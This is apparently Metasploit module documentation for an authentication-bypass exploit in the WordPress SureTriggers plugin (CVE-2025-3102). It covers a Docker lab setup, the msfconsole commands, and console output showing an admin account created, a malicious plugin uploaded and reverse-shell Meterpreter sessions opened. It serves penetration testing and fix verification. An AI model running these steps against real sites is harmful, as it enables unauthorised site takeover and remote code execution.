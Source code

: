 ## Vulnerable Application

This Metasploit module exploits an administrative user creation vulnerability in the
WordPress SureTriggers plugin, versions <= 1.0.78 (CVE-2025-3102).
The plugin exposes an unauthenticated REST endpoint (`automation/action`) that allows
bypassing permission checks to create a new administrator account.

To replicate a vulnerable environment for testing:

1. Install WordPress using the provided Docker Compose configuration.
2. Download and install the SureTriggers plugin v1.0.78:
   [https://downloads.wordpress.org/plugin/suretriggers.1.0.78.zip](https://downloads.wordpress.org/plugin/suretriggers.1.0.78.zip)
3. Verify that the plugin is activated and accessible on the local network.
4. No further configuration is required; vulnerability is present immediately upon activation.

## Docker Compose Configuration

```yaml
services:

  wordpress:
    image: wordpress:6.3.2
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_ROOT_PASSWORD: dummy_password
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

Create a `custom.ini` file with:

```ini
upload_max_filesize = 64M
post_max_size = 64M
```

## Verification Steps

1. Start the environment:

```bash
docker-compose up -d
```

2. Complete WordPress setup at [http://localhost:5555](http://localhost:5555)
3. Confirm that SureTriggers v1.0.78 is active under **Plugins**
4. Launch `msfconsole`
5. Load the module:

```bash
use exploit/multi/http/wp_suretriggers_auth_bypass
```

6. Set `RHOSTS` to the target IP
7. Optionally set `ST_AUTH` if you have an existing key
8. Configure `WP_USER`, `WP_PASS`, `WP_EMAIL`
9. Execute the exploit with `run`

## Options

* **RHOSTS**: Target IP address or hostname where WordPress is running.
* **TARGETURI**: Base path to the WordPress installation (default is `/`).
* **WP_USER**, **WP_PASS**, **WP_EMAIL**: Credentials for the new administrator account that the exploit will create.
  By default these are randomly generated but you can set them to values of your choice, for example:

```bash
set WP_USER eviladmin
set WP_PASS Str0ngP@ss!
set WP_EMAIL eviladmin@example.com
```

* **ST_AUTH**: *(Optional)* If you have the plugin’s secret key (used in the `st_authorization` header),
  you can provide it here to authenticate the REST request.
  If left empty the module will send an empty header value, which still works on versions <= 1.0.78.

## Scenarios

### Successful Exploitation Against SureTriggers v1.0.78

**Setup:**

* Local WordPress instance with SureTriggers v1.0.78
* Metasploit Framework

**Steps:**

1. Start `msfconsole`

2. Load the module:
```bash
use exploit/multi/http/wp_suretriggers_auth_bypass
```
3. Configure:
```bash
set RHOSTS 127.0.0.1
set TARGETURI /
set WP_USER eviladmin
set WP_PASS Str0ngP@ss!
run
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://127.0.0.1:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.3.2
[+] Detected suretriggers plugin version: 1.0.78
[+] The target appears to be vulnerable.
[*] Attempting to create administrator user via auth bypass...
[!] Primary endpoint failed or did not return success, trying fallback via rest_route...
[+] Administrator created: sol_bash:k9R0ZwjRX5VBOBJ
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_p2ash/ajax_efdsa.php...
[*] Sending stage (40004 bytes) to 172.27.0.2
[+] Deleted ajax_efdsa.php
[+] Deleted wp_p2ash.php
[+] Deleted ../wp_p2ash
[*] Meterpreter session 3 opened (192.168.1.36:4444 -> 172.27.0.2:33924) at 2025-05-07 17:22:49 +0200

meterpreter > sysinfo
Computer    : a6e792b1c252
OS          : Linux a6e792b1c252 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```plaintext
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   PHP In-Memory
    1   Unix In-Memory
    2   Windows In-Memory


msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set target 1
target => 1
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_suretriggers_auth_bypass) > run http://127.0.0.1:5555
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected WordPress version: 6.3.2
[+] Detected suretriggers plugin version: 1.0.78
[+] The target appears to be vulnerable.
[*] Attempting to create administrator user via auth bypass...
[!] Primary endpoint failed or did not return success, trying fallback via rest_route...
[+] Administrator created: sol_bash:k9R0ZwjRX5VBOBJ
[*] Uploading malicious plugin for code execution...
[*] Executing payload at /wp-content/plugins/wp_ppqii/ajax_cqc8l.php...
[*] Sending stage (3045380 bytes) to 172.27.0.2
[+] Deleted ajax_cqc8l.php
[+] Deleted wp_ppqii.php
[+] Deleted ../wp_ppqii
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 172.27.0.2:54238) at 2025-05-07 17:24:10 +0200

meterpreter > sysinfo
Computer     : 172.27.0.2
OS           : Debian 11.8 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

